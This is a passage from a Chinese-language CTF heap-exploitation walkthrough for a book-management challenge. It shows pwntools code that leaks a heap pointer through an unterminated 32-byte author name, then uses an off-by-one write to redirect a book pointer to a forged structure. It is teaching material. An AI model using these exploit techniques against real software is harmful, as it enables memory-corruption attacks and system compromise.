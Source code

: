 爲了實現泄漏，首先在 author name 中需要輸入 32 個字節來使得結束符被覆蓋掉。之後我們創建 book1 ，這個 book1 的指針會覆蓋 author name 中最後的 NULL 字節，使得該指針與 author name 直接連接，這樣輸出 author name 則可以獲取到一個堆指針。

```
io.recvuntil('Enter author name:') # input author name
io.sendline('a' * 32)

io.recvuntil('>') # create book1
io.sendline('1')
io.recvuntil('Enter book name size:')
io.sendline('32')
io.recvuntil('Enter book name (Max 32 chars):')
io.sendline('object1')
io.recvuntil('Enter book description size:')
io.sendline('32')
io.recvuntil('Enter book description:')
io.sendline('object1')

io.recvuntil('>') # print book1
io.sendline('4')
io.recvuntil('Author:')
io.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr = io.recv(6)
book1_addr = book1_addr.ljust(8,'\x00')
book1_addr = u64(book1_addr)
```


#### off-by-one 覆蓋指針低字節

程序中同樣提供了一種 change 功能， change 功能用於修改 author name ，所以通過 change 可以寫入 author name ，利用 off-by-one 覆蓋 pointer array 第一個項的低字節。


覆蓋掉 book1 指針的低字節後，這個指針會指向 book1 的 description ，由於程序提供了 edit 功能可以任意修改 description 中的內容。我們可以提前在 description 中佈置數據僞造成一個 book 結構，這個 book 結構的 description 和 name 指針可以由直接控制。

```
def off_by_one(addr):
    addr += 58
    io.recvuntil('>')# create fake book in description
    io.sendline('3')
    fake_book_data = p64(0x1) + p64(addr) + p64(addr) + pack(0xffff)
    io.recvuntil('Enter new book description:')
    io.sendline(fake_book_data) # <== fake book


    io.recvuntil('>') # change author name
    io.sendline('5')
    io.recvuntil('Enter author name:')
    io.sendline('a' * 32) # <== off-by-one
```

這裏在 description 中僞造了 book ，使用的數據是 p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 。
其中 addr+58 是爲了使指針指向 book2 的指針地址，使得我們可以任意修改這些指針值。
